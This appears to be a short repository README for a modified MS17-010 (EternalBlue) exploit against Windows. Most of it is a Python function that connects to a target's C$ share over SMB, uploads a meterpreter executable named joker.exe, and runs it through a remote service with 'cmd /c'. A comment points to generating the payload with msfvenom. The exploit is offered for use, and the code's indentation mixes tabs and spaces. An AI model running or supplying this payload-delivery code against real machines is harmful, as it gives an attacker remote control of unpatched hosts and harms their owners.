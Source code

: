 # MS17-010 exploit
MS17-010 exploit for Windows 2000 and later by sleepya mod by joker2a

Add your meterpreter (joker.exe) :

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	
	smb_send_file(smbConn, 'joker.exe', 'C', '/joker.exe')
        service_exec(conn, r'cmd /c c:\\joker.exe')
        print ('payload exec')
        smbConn.disconnectTree(tid2)

        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
